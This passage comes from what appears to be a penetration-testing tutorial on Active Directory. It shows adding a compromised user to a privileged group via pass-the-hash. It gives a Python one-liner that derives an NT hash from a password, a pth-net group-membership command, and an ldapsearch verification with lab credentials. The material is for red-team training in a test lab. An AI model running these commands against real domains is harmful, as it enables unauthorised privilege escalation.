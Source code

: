 ![dacl-ldapshell](assets\images\dacl-gw-on-group\dacl-ldap_shell3.png)

## Method 3 - Passing-the-Hash

We can use the tool **passing-the-hash (pth)** to add the user to the target group.

In order to use **pth**, we obviously need a **hash**. Since we have a **compromised user**, we likely already know the **password**. We can generate an **NT hash** using a simple **Python one-liner**. This involves including a **padding value** (usually `aad3b435b51404eeaad3b435b51404ee`) for the **LM hash**, and the actual **NT hash** in the second part.

### Python One-liner to Create NT Hash:
```python
python3 -c "import hashlib; pwd='ThePassword'; print(f'00000000000000000000000000000000:{hashlib.new(\"md4\", pwd.encode(\"utf-16le\")).hexdigest()}')"
```
![dacl-pth](assets\images\dacl-gw-on-group\dacl-pth-1.png)

### Add User to Group with Pth-Net

Now that we have a **NT hash** of the known password, we can use **pth-net** command to add our user to the target group. 

**Pth-net Command:**
```bash
pth-net rpc group addmem TargetGroup UserToAdd -U domain/UserName%00000000000000000000000000000000:NTHash -S DomainController
```
![dacl-pth](assets\images\dacl-gw-on-group\dacl-pth-2.png)

### Verify Group Membership with Ldapsearch

**Ldapsearch Command:**
```bash
ldapsearch -x -H ldap://192.168.1.154 -D 'jaremy.rykker@north.sevenkingdoms.local' -w 'Winter123!' -b "DC=north,DC=sevenkingdoms,DC=LOCAL" "(sAMAccountName=TestingNestingAdministratorsGroup)" member 
```
![dacl-pth](assets\images\dacl-gw-on-group\dacl-pth-3.png)
